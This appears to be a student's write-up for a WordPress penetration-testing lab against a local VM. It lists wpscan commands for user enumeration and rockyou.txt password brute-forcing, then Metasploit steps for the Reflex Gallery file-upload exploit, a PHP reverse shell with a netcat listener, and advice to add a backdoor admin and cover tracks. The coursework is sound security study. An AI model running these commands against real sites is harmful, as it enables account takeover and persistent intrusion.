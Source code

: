# Project 7 - WordPress Pen Testing

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pen Testing Report

### 1. User Enumeration (CVE-2020-7918)

- [ ] Summary:     
  - Vulnerability types: Insecure direct object reference
  - Tested version: 4.2
  - Fixed version: NOT FIXED
  - Affected source code: (http://wpdistillery.vm/wp-login.php)
  - Tools/Resources Used:
  <br /> https://www.kali.org/get-kali/#kali-virtual-machines
  <br /> https://www.kali.org/tools/wpscan
  <br /> https://wpscan.com/
  <br /> password list: rockyou.txt
  - Techniques: BruteForce, Dictionary Attack, Credential Stuffing
  - Preventative Action: Password Complexity, Multi-Factor Authentication (MFA), Password Manager, Account Lockout Policy
  - Commands used:
  <br /> sudo gunzip /usr/share/wordlists/rockyou.txt.gz (extract and move for ease of use)
  <br /> wpscan -h (Display the Help)
  <br /> wpscan --url http://wpdistillery.vm (Reconnasissance)
  <br /> wpscan --url http://wpdistillery.vm --enumerate u (Finding Usernames)
  <br /> wpscan --url http://wpdistillery.vm -U ~/Desktop/wpusers.txt -P ~/Desktop/rockyou.txt (BruteForce Attack)
  


- [ ] Walkthrough:
<br /> Where's the Beef ?!?
<img src="user_enum1.gif">
<br /> A Successful Attack against all 5 User Accounts took 2min and 11 seconds !?!
<img src="BruteForce.gif">
<br /> The Damage... We got User credentials, PII, and our very own Administrative Account !?!
<img src="damage.gif">


- [ ] Steps to recreate:
<br /> - Try common usernames in the TARGET's login page, guess common passwords. Maybe we'll get some helpful info. Lets PLAN our attack.
<br /> - Kali is a great toolbox. Lets use our handy dandy tool wpSCAN to gather information on a TARGET. Perfome RECONNAISSANCE.
<br /> - After some poking and proding with WPSCAN lets use our collected INTEL to test our might. Commense Brute Force Attack!!! 
<br /> - Have I been pwned? Lets use the compromised credentials. GAIN ACCESS!!!
<br /> - Lets cause some damage...hmmm how about we just add a way to get back in. Add our own administrator ;). MAINTAIN ACCESS
<br /> - Considerations: COVER YOUR TRACKS!!!
  
### 2. Vulnerable Plugin Reflect Gallery (CVE-2015-4133)

- [ ] Summary: 
  - Vulnerability types: Arbitrary File Upload
  - Tested in version: 3.1.3
  - Fixed in version: 3.1.4
  - Tools/Resources Used:
<br /> https://www.kali.org/tools/metasploit-framework/
<br /> exploit/unix/webapp/wp_reflexgallery_file_upload
<br /> https://pentestmonkey.net/tools/web-shells/php-reverse-shell
<br /> https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
<br /> https://www.kali.org/tools/netcat/

 - Commands used:
  <br /> wpscan --url http://wpdistillery.vm (Reconnasissance)
  <br /> service postgresql start (for msf)
  <br /> msfdb init (for msf)
  <br /> msfconsole (msf)
  <br /> db status (for msf)
  <br /> search reflex (msf exploit)
  <br /> use 0 (select module)
  <br /> show options
  <br /> set RHOST wpdistillery.vm (target)
  <br /> set LHOST 192.168.33.101 (Kali VM)
  <br /> run
  <br /> shell
  <br /> whoami
  <br /> hostname
  <br /> pwd 
  <br /> ls
  <br /> ../
  <br /> pwd 
  <br /> edit /var/www/public/wp-content/themes/twentyfifteen/archive.php
  <br /> :%d
  <br /> :wq
  <br /> exit
  <br /> nc -nvlp 80
  
  
- [ ] Walkthrough:
<br /> Ole Reliable 
<img src="plugins.gif">
<br /> I've always wanted a Swiss Army Knife
<img src="swiss_army_knife.gif">
<br /> I'll be listening for secrets
<img src="backdoor.gif">

- [ ] Steps to recreate: 
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)

### 3. (Required) Vulnerability Name or ID

- [ ] Summary: 
  - Vulnerability types:
  - Tested in version:
  - Fixed in version: 
- [ ] GIF Walkthrough: 
- [ ] Steps to recreate: 
- [ ] Affected source code:
  - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)


## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with  ...

[ScreenToGif](https://www.screentogif.com/) for Windows

## Notes

Setting up the pen testing environment was really challenging. I had a tough time getting windows 10 to play nice with vagrant and virtual box. I persevered, through trial and error. My saving grace was utilizing the snapshot feature when things went wrong. This was key in troubleshooting and documenting solutions along the way. My advice for my fellow colleagues and academics, don’t get discouraged, our failures are our greatest teachers.

Solutions for Common Isssues:

- https://gitforwindows.org/ (required for windows, install it)
- https://notepad-plus-plus.org/ (use to edit config.yml & hosts file as administrator)
- Create a restore point in Virtual Box once wpdistillery is up and running to revert ( Windows Powershell Failure to reboot vm issue, exploits not functioning issue)
- https://www.virtualbox.org/wiki/Download_Old_Builds_6_1 (for MacOS network adapter issues and KERNAL driver not installed)
- For MacOS check Security & Privacy: Allow apps downloaded from: SELECT app store and identified developers (make sure virtual box isnt being blocked)
- For MacOS in VirtualBoX settings disable Audio (virtual machine aborts issue)

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
